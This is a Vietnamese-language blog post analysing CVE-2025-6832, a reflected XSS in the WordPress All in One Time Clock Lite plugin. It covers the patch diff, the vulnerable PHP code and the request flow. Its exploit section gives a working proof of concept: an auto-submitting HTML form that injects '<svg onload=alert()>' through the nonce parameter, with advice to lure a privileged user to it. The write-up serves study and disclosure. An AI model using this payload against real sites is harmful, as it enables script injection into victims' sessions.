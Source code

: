 ```yaml
---
title: CVE-2025-6832 Analysis & POC
description: Security Vulnerability in WordPress All in One Time Clock Lite Plugin.
date: 2025-09-29 17:38:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, xss]
image:
  path: assets/img/posts/2025-09-29-CVE-2025-6832/application.png
  alt: All in One Time Clock Lite – Tracking Employee Time Has Never Been Easier.
---
```


---

## CVE & Basic Info
**Lỗ hổng Reflected Cross-Site Scripting (XSS)** trong plugin **All in One Time Clock Lite** cho WordPress.
Lỗ hổng xuất phát từ tham số **`nonce`** ở các phiên bản đến và bao gồm **2.0**, do **xử lý đầu vào không đầy đủ** và **không escape đầu ra**.
Kẻ tấn công (kể cả không xác thực) có thể chèn các đoạn script tùy ý vào trang; những script này sẽ được thực thi khi nạn nhân thực hiện hành động bị thao túng (ví dụ: bấm vào một liên kết).

* **CVE ID**: [CVE-2025-6832](https://www.cve.org/CVERecord?id=CVE-2025-6832)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 2.0
* **CVSS severity**: Medium (7.1) 
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress All in One Time Clock Lite Plugin](https://wordpress.org/plugins/aio-time-clock-lite/)

---

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/wordpress-local-and-debugging/).
* **Plugin versions** - **All in One Time Clock Lite**: **v2.0** (vulnerable) và **v2.0.1** (patched).
* **Diff tool** - **Meld** hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

---

## Analysis

### Patch diff
Trong phiên bản **vulnerable**, tham số `nonce` được lấy trực tiếp từ `$_POST` mà **không qua bất kỳ sanitization nào**:

```php
$nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;
```

Trong phiên bản **patched**, tham số `nonce` được xử lý bằng [`sanitize_text_field()`](https://developer.wordpress.org/reference/functions/sanitize_text_field/) trước khi sử dụng, ngăn chặn việc chèn mã độc:

```php
$nonce = (isset($_POST["nonce"])) ? sanitize_text_field($_POST["nonce"]) : null;
```

👉 Bản vá bổ sung lớp lọc đầu vào cho biến `nonce`, đảm bảo dữ liệu nhận từ request sẽ được loại bỏ ký tự nguy hiểm trước khi xử lý tiếp.

![Diff — so sánh thay đổi mã giữa bản vulnerable và bản vá](assets/img/posts/2025-09-29-CVE-2025-6832/diff.png)
_Diff — So sánh thay đổi mã nguồn giữa phiên bản vulnerable và bản vá_

---

### Vulnerable code 
Lỗ hổng nằm trong hàm `aio_time_clock_lite_js()` thuộc class `AIO_Time_Clock_Lite_Actions` trong file `aio-time-clock-lite-actions.php`{: .filepath}

```php
public function aio_time_clock_lite_js()
{
    // other logic       
    $nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;

    if (wp_verify_nonce($nonce, 'time-clock-nonce')) {
        // other logic            
    } else {
        echo json_encode(
            [
                "response"     => "failed",
                "message"      => esc_attr_x("Not authorized to perform this action", 'aio-time-clock-lite'),
                "nonce"        => $nonce,
                "clock_action" => $clock_action,
            ]
        );
    }

    wp_reset_postdata();
    die();
}
```
{: file="aio-time-clock-lite-actions.php"}

Hàm `wp_verify_nonce()` so sánh giá trị `$nonce` gửi từ client với giá trị hợp lệ mà server đã sinh ra trước đó bằng hàm `wp_create_nonce()`.

```php
<input type="hidden" name="time-clock-nonce" id="time-clock-nonce" value="<?php echo wp_create_nonce("time-clock-nonce"); ?>">
```
{: file="aio-settings.php"}

Nếu `$nonce` không hợp lệ => nhảy sang nhánh `else` trả về **JSON** báo lỗi chứa `$nonce`.

Click `2 references` ta thấy hàm `public function aio_time_clock_lite_js()` được gọi làm callback cho các action hook:

![Callback registration for ajax hooks](assets/img/posts/2025-09-29-CVE-2025-6832/ref1.png)
_Hàm aio_time_clock_lite_js() được gắn vào hai hook Ajax (authenticated & unauthenticated)_

* `wp_ajax_aio_time_clock_lite_js`(authenticated).
* `wp_ajax_nopriv_aio_time_clock_lite_js`(unauthenticated). => Focus

### Sources & Sinks

* **Source**: Tham số `nonce` lấy trực tiếp từ `$_POST` (unauthenticated request).
* **Sink**: Giá trị `nonce` được phản chiếu lại trong `echo json_encode(...)`.

### Flow

1. Gửi POST request (unauthenticated) đến `/wp-admin/admin-ajax.php` với các **params**:
```
action=aio_time_clock_lite_js&nonce=nonce_value
```

2. Callback `aio_time_clock_lite_js()` được gọi
3. Kiểm tra giá trị `nonce` => **invalid**
4. Phản chiếu giá trị `nonce` vào body bằng `echo json_encode(...)`

## Exploit
### Proof of Concept (PoC)

- Tạo trang web chứa form submit:

```html
<form action="http://localhost/wp-admin/admin-ajax.php" method="post">
  <input type="hidden" name="action" value="aio_time_clock_lite_js">
  <input type="hidden" name="nonce" value="<svg onload=alert()>">
</form>
<script>document.forms[0].submit()</script>
```

- Gửi link đến trang web chứa form cho người dùng cho dặc quyền.
- Quan sát việc thực hiện **JavaScript** được tiêm.

![Result — PoC execution screenshot](assets/img/posts/2025-09-29-CVE-2025-6832/result.png)
_Trình duyệt thực thi JavaScript sau khi form được submit._

---

## Conclusion

Lỗ hổng **CVE-2025-6832** trong plugin **All in One Time Clock Lite <= 2.0** cho phép **unauthenticated attacker** khai thác Reflected XSS thông qua tham số `nonce`. Bản vá **2.0.1** đã thêm `sanitize_text_field()` để lọc input, ngăn chặn mã độc được phản chiếu trong JSON response.

**Key takeaways**:

* Luôn **sanitize** và **escape** dữ liệu trước khi trả về response.
* Endpoint mở cho **nopriv (unauthenticated)** cần được xem xét cẩn trọng.
* Reflected XSS thường xuất hiện khi giá trị input được phản chiếu trực tiếp trong output (JSON/HTML).
* **Update plugin** kịp thời là cách đơn giản nhất để giảm thiểu rủi ro.

---

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress All in One Time Clock Lite <= 2.0 — CVE-2025-6832](https://patchstack.com/database/wordpress/plugin/aio-time-clock-lite/vulnerability/wordpress-all-in-one-time-clock-lite-tracking-employee-time-has-never-been-easier-plugin-2-0-reflected-cross-site-scripting-vulnerability)

---